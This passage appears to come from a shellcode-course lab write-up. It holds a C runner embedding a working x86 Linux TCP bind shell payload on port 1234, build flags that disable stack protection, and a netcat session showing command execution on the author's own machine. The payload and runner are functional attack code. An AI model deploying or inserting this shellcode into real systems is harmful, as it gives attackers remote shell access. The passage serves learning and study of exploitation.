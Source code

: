 To test the shellcode generated by the python script, I used the following C `shellcode runner`:

```cpp
#include <stdio.h>
#include <string.h>

unsigned char code[] = "\x31\xc0\x89\xc3\x89\xc1\xb0\x66\xb3\x01\xb1\x06\x51\x53\xb1\x02\x51\x89\xe1\xcd\x80\x4b\x53\x66\x68\x04\xd2\xb3\x02\x66\x53\x89\xe1\xc0\xc3\x03\x53\x51\x89\xc6\x50\x31\xc0\xb0\x66\xc0\xcb\x03\x89\xe1\xcd\x80\xb3\x01\x6a\x01\x56\x89\xd8\xb0\x66\xc0\xc3\x02\x89\xe1\xcd\x80\xc0\xc3\x02\x53\x31\xdb\x53\x53\x56\x89\xd8\xb0\x66\xb3\x05\x89\xe1\xcd\x80\x89\xd9\xb3\x03\x89\xc7\x51\xb0\x3f\x89\xfb\x8b\x0c\x24\x49\xcd\x80\x59\xe2\xf2\x51\x89\xe1\x89\xe2\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xc0\xb0\x0b\xcd\x80";

main() {
    printf("Shellcode length: %d\n", strlen(code));

    int (*ret)() = (int(*)())code;
    ret();
}
```

Compile and run it:

```bash
gcc -fno-stack-protector -z execstack -o tcp_bind_shell shellcode_runner.c
./tcp_bind_shell
```

Finally, I confirmed I could connect with `netcat` and execute commands:

```bash
rbct@slae:~$ nc 127.0.0.1 1234
whoami
# rbct
id
# uid=1000(rbct) gid=1000(rbct) groups=1000(rbct),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),111(lpadmin),112(sambashare)
exit
rbct@slae:~$
```

